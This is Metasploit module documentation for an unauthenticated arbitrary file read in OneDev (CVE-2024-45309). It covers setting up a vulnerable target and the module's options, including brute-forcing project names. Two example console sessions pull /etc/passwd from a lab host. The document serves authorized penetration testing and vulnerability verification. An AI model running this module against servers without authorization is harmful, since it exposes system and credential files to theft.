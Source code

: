 ## Vulnerable Application

OneDev is a Git Server with CI/CD, kanban, and packages.
This module exploits an unauthenticated arbitrary file read vulnerability (CVE-2024-45309), which affects OneDev versions <= 11.0.8.
This vulnerability arises due to the lack of user-input sanitization of path traversal sequences `..` in the `ProjectBlobPage.java` file.

To exploit this vulnerability, a valid OneDev project name is required. If anonymous access is enabled on the OneDev server, any visitor
can view existing projects without authentication.
However, when anonymous access is disabled, an attacker who lacks prior knowledge of existing project names can use a brute-force approach.
By providing a user-supplied wordlist, the module may be able to guess a valid project name and subsequently exploit the vulnerability.

## Installation

OneDev provides docker images for a quick setup process.
A vulnerable version (`v11.0.8`) can be found [here](https://hub.docker.com/r/1dev/server/tags?name=11.0.8).

Installation instructions can be found [here](https://docs.onedev.io/).

## Verification Steps

1. Install the OneDev application
2. Start msfconsole
3. Do: `use auxiliary/gather/onedev_arbitrary_file_read`
4. Set the `RHOSTS` and `RPORT` options as necessary
5. Set the `TARGETFILE` option with the absolute path of the target file to read

If a valid project name is known:

6. Set the `PROJECT_NAME` option with the known project name
7. Do: `run`
8. If the file exists, the contents will be displayed to the user

If there is no information about existing projects:

6. Set the `PROJECT_NAMES_FILE` option with the absolute path of a wordlist that contains multiple possible values for a valid project name
7. Do: `run`
8. If a valid project name is found, the target file contents will be displayed to the user

## Options

### PROJECT_NAME
A valid OneDev project name is required to exploit the vulnerability. If anonymous access is enabled on the OneDev server,
any visitor can see the existing projects, and colllect a valid project name. On the other hand, if anonymous access is disabled,
the user needs to have previous knowledge of a valid project name or use the `PROJECT_NAMES_FILE` option to find one through brute force.

### PROJECT_NAMES_FILE
Absolute path of a wordlist containing multiple possible values for valid project names. Once this option is set,
the module will verify whether a given project exists for each word.


### TARGETFILE
Absolule file path of the target file to be retrieved from the OneDev server. Set as `/etc/passwd` by default.

### STORE_LOOT
If set as `true`, the target file contents will be stored as loot. Set as `false` by default.


## Scenarios

### Example: Known project name or anonymous access enabled on OneDev 11.0.8

```
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RHOSTS 192.168.1.10
RHOSTS => 192.168.1.10
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RPORT 6610
RPORT => 6610
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set PROJECT_NAME myproject
PROJECT_NAME => myproject
msf6 auxiliary(gather/onedev_arbitrary_file_read) > run
[*] Running module against 192.168.1.10

[+] Target file retrieved with success
[*] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin

[*] Auxiliary module execution completed

```

### Example: Unknown projects with anonymous access disabled on OneDev 11.0.8
```
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RHOSTS 192.168.1.10
RHOSTS => 192.168.1.10
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RPORT 6610
RPORT => 6610
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set PROJECT_NAMES_FILE /home/server/wordlist.txt
PROJECT_NAMES_FILE => /home/server/wordlist.txt
msf6 auxiliary(gather/onedev_arbitrary_file_read) > run
[*] Running module against 192.168.1.10

[*] Brute forcing valid project name ...
[+] 192.168.1.10:6610 - Found valid OneDev project name: myproject
[+] Target file retrieved with success
[*] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin

[*] Auxiliary module execution completed

```
